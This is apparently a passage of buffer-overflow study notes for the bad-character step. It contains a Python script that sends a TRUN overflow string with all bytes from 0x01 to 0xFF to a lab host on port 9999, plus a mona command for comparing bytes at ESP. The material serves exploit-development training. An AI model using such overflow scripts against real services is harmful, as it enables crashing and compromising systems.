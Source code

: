 ## Update Bad Chars

- `badchars = <output from mona>`

```
#!/usr/bin/python3

import sys, socket
from time import sleep

badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13"
"\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26"
"\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39"
"\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c"
"\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72"
"\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85"
"\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98"
"\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab"
"\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe"
"\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1"
"\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4"
"\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7"
"\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

shellcode = "A" * 2003 + "B" * 4 + badchars

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.4.104',9999))

	payload = "TRUN /.:/" + shellcode

	s.send((payload.encode()))
	s.close()
except:
	print ("Error connecting to server")
	sys.exit()

```

- now you don't have to review the bad chars manually, instead:
- `!mona compare -f c:\mona\bytearray.bin -a 010AF9C8` where ***010AF9C8*** is the ***ESP*** address
